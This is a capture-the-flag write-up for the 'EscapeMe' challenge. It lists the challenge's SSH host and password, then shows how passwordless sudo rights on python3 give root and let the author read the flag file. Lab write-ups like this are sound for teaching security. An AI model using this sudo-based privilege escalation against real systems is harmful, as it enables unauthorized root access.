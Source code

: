 ## EscapeMe (100 points)

#### Solved by hieplpvip

```
Can you escape me!

ssh ctf@61.28.237.24 -p30402 password: hcmus-ctf

author: pakkunandy

p/s: the flag.txt is in the /home/ctf. If it is not exist. Please wait and then login again.
```

Let's check what we can run as root:

```
$ sudo -l
Matching Defaults entries for ctf on escapeme-5c599b968f-gwjcv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctf may run the following commands on escapeme-5c599b968f-gwjcv:
    (ALL) NOPASSWD: /usr/bin/python3
```

We can run `python3` as root without password. We will use this to get the flag:

```
$ sudo python3
Python 3.6.9 (default, Jan 26 2021, 15:33:00)
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("cat /home/ctf/flag.txt")
HCMUS-CTF{privilege_escalation_is_fun!!!}
```

**Flag:** `HCMUS-CTF{privilege_escalation_is_fun!!!}`

### References

- [https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)
